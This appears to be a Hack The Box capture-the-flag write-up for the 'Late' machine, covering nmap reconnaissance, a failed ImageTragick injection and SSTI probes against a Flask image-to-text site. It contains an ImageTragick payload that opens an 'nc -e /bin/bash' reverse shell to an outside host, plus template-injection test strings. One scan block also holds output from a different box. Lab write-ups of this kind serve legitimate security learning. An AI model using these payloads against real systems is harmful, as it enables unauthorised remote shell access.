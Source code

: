 ### Step 1
**nmap:**
```bash
➜  late nmap -p- -v 10.10.11.156
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

➜  late nmap -p22,80 -sCV 10.10.11.156
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 02:5e:29:0e:a3:af:4e:72:9d:a4:fe:0d:cb:5d:83:07 (RSA)
|   256 41:e1:fe:03:a5:c7:97:c4:d5:16:77:f3:41:0c:e9:fb (ECDSA)
|_  256 28:39:46:98:17:1e:46:1a:1e:a1:ab:3b:9a:57:70:48 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Late - Best online image tools
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


[root:/git/htb/pandora]# nmap -sU --top-port=20 --open 10.10.11.136
PORT     STATE         SERVICE
67/udp   open|filtered dhcps
68/udp   open|filtered dhcpc
135/udp  open|filtered msrpc
137/udp  open|filtered netbios-ns
138/udp  open|filtered netbios-dgm
161/udp  open          snmp
520/udp  open|filtered route
4500/udp open|filtered nat-t-ike
```

Browsing the webpage we find `images.late.htb`, add it to `/etc/hosts` and proceed. The site is very basic and lets us upload an image which will be converted to a text document.

![[Pasted image 20220509205732.png]]
This lead me down the road of "ImageTragick" trying to inject code with the following string:
```bash
push graphic-context
viewbox 0 0 640 480
fill 'url(https://nothing/here.jpg"|nc -e /bin/bash 10.10.14.18 "4488)'
pop graphic-context
```

Although it gave nothing.. so instead we look on the later part of the description ".. with flask", why do they specify that? Reading about Flask vulnerabilities we find a lot of information about Flask and Jinja, specifically Server-Side Template Injections (SSTI), where the HTB box Doctor is referenced. 

We go to HackTricks and grab all the different operations to find which template engine is being used.
```bash
## REQUEST
${7*7}
{% raw %}{{7*7}}{% endraw %}
{% raw %}{{7*'7'}}{% endraw %}
<%= 7*7 %>
#{7*7}

## RESPONSE
${7*7}
49
7777777
<%= 7*7 %>
```